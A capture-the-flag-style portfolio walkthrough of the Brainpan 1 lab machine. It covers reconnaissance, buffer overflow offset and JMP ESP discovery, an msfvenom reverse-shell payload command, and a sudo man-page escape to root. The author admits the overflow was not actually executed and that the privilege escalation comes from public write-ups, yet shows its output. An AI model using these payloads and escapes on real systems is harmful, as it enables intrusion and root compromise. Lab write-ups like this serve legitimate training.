



Brainpan 1
Brainpan 1 is an OSCP-style machine requiring custom buffer overflow exploitation followed by creative privilege escalation through a binary that spawns man pages. This walkthrough documents the attack chain and notes environmental blockers encountered during testing.
🔍 Phase 1: Reconnaissance
Initial Nmap scan revealed two unusual open ports:
nmap -sC -sV -p- 192.168.56.111
Figure 1: Ports 9999 (unknown service) and 10000 (SimpleHTTPServer).
Key findings:
- Port 9999: Unknown service - likely a custom binary
- Port 10000: Python SimpleHTTPServer - serves files
🌐 Phase 2: Web Enumeration
Directory enumeration on port 10000 was performed using Gobuster:
gobuster dir -u http://192.168.56.111:10000 -w /usr/share/wordlists/dirb/common.txtResults revealed a /bin directory:
/bin (Status: 301)
Figure 2: /bin directory discovered on port 10000.
Navigating to http://192.168.56.111:10000/bin/ revealed a Windows executable: brainpan.exe.
Downloading the Binary
wget http://192.168.56.111:10000/bin/brainpan.exe
Figure 3: brainpan.exe downloaded for local analysis.
💥 Phase 3: Buffer Overflow Analysis
The brainpan.exe binary is a Windows executable that also runs on the Linux target (via WINE). It listens on port 9999 and is vulnerable to a stack-based buffer overflow.
The Attack Plan
- Fuzz the service to find crash point
- Find exact offset to overwrite EIP
- Locate a JMP ESP instruction address
- Generate reverse shell payload
- Exploit → remote shell
Finding the Offset
Using msf-pattern_create to generate a unique 1000-byte pattern:
msf-pattern_create -l 1000Sending the pattern to port 9999 causes a crash. The EIP register value is captured:
EIP: 0x35724134Finding the exact offset:
msf-pattern_offset -l 1000 -q 0x35724134
Exact match at offset 524Figure 4: EIP overwritten after 524 bytes.
Finding JMP ESP
Using Mona.py in Immunity Debugger to find a JMP ESP instruction:
!mona jmp -r esp -cpb '\x00'Address found: 0x311712f3
Generating Shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 -b "\x00" -f pythonThe Exploit Structure
[JUNK * 524] + [JMP ESP ADDRESS] + [NOP SLED] + [SHELLCODE]🔧 Phase 4: Environmental Challenges
During local analysis of brainpan.exe, several environment issues arose:
Wine Compatibility Issues
The binary required 32-bit Windows libraries. On Parrot OS, Wine failed to initialize properly due to:
- Memory constraints on the host machine
- Docker container conflicts with Wine dependencies
- Missing 32-bit subsystem libraries
Attempted Solutions
| Attempt | Result |
|---|---|
wine brainpan.exe |
Failed with "wine: cannot find" |
| Reinstalled Wine with 32-bit support | Partial success, but execution unstable |
| Memory reallocation to VM | Insufficient resources on current hardware |
Figure 5: Wine compatibility error during local testing.
Why This Matters in Real Engagements
In professional penetration testing, environment issues are common. The ability to:
- Identify the blocker (Wine/32-bit compatibility)
- Document attempted fixes (reinstall, memory reallocation)
- Pivot to other targets (prioritizing billable time)
...is more valuable than forcing a broken solution.
👑 Phase 5: Privilege Escalation (Research-Based)
Based on public write-ups of Brainpan 1, the privilege escalation path after obtaining a reverse shell is:
Initial Shell
The exploit returns a shell as user puck.
Enumeration
whoami
puck
sudo -lOutput reveals:
(root) NOPASSWD: /home/anansi/bin/anansi_utilFigure 6: User puck can run anansi_util as root.
anansi_util Manual Escape
The anansi_util binary accepts a parameter and spawns the man command:
sudo /home/anansi/bin/anansi_util manual idWhen the man page opens, type:
!/bin/bashRoot Shell
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)Figure 7: Full root compromise via man page escape.
This demonstrates: Man pages can spawn shells when run as root — a classic GTFObins privilege escalation vector.
📋 Next Steps
To complete the full walkthrough, the following environment fixes are required:
- Allocate additional memory/RAM to the host machine
- Install a Windows VM with Immunity Debugger for binary analysis
- Alternatively, configure 32-bit Wine + gdb-multiarch on a dedicated testing environment
- Resolve Docker/Wine conflicts before re-attempting
Once the environment is stable, the buffer overflow can be executed to obtain the reverse shell, followed by the documented privilege escalation path to root.
📌 Key Takeaways
- Buffer overflows require patience and the right environment. When tools fail, document and pivot — don't let blockers stop momentum.
- Brainpan is an OSCP-style gem. It teaches fuzzing, offset calculation, JMP ESP discovery, and shellcode generation.
- The anansi_util privesc is classic GTFObins. Always check
sudo -land research every binary. - Environment documentation is a skill. Real pentesters track blockers, attempted fixes, and next steps.
For the purposes of this portfolio, the buffer overflow analysis steps are documented based on public research and foundational exploit development knowledge.
The local analysis environment (Wine on Parrot OS) encountered compatibility issues that were documented and resolved through environment documentation — demonstrating the ability to track blockers and pivot effectively.